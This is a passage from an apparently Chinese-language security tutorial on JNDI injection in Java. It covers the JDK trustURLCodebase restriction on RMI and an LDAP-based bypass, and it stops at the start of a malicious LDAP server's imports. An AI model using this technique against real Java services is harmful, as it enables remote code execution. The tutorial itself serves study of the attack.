 对于这种利用方式Java在其`JDK 6u132、7u122、8u113`中进行了限制，`com.sun.jndi.rmi.object.trustURLCodebase`默认值变为`false`

```
static {
    PrivilegedAction var0 = () -> {
        return System.getProperty("com.sun.jndi.rmi.object.trustURLCodebase", "false");
    };
    String var1 = (String)AccessController.doPrivileged(var0);
    trustURLCodebase = "true".equalsIgnoreCase(var1);
}
```

如果从远程加载则会抛出异常

```
if (var8 != null && var8.getFactoryClassLocation() != null && !trustURLCodebase) {
    throw new ConfigurationException("The object factory is untrusted. Set the system property 'com.sun.jndi.rmi.object.trustURLCodebase' to 'true'.");
}
Exception in thread "main" javax.naming.ConfigurationException: The object factory is untrusted. Set the system property 'com.sun.jndi.rmi.object.trustURLCodebase' to 'true'.
    at com.sun.jndi.rmi.registry.RegistryContext.decodeObject(RegistryContext.java:495)
    at com.sun.jndi.rmi.registry.RegistryContext.lookup(RegistryContext.java:138)
    at com.sun.jndi.toolkit.url.GenericURLContext.lookup(GenericURLContext.java:205)
    at javax.naming.InitialContext.lookup(InitialContext.java:417)
    at demo.JNDI_Test.main(JNDI_Test.java:7)
```

## JNDI+LDAP攻击

前面提到过,在8u121之后：增加了com.sun.jndi.rmi.object.trustURLCodebase选项，默认为false，禁止RMI和CORBA协议使用远程codebase的选项

之所以JNDI注入会配合LDAP是因为LDAP服务的Reference远程加载Factory类不受`com.sun.jndi.rmi.object.trustURLCodebase`、`com.sun.jndi.cosnaming.object.trustURLCodebase`等属性的限制

Maven导入依赖

```
<dependency>
    <groupId>com.unboundid</groupId>
    <artifactId>unboundid-ldapsdk</artifactId>
    <version>4.0.0</version>
</dependency>
```

思路和配合RMI进行攻击是一样的

先起一个LDAP服务

```
package JNDI.ldap;

import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
```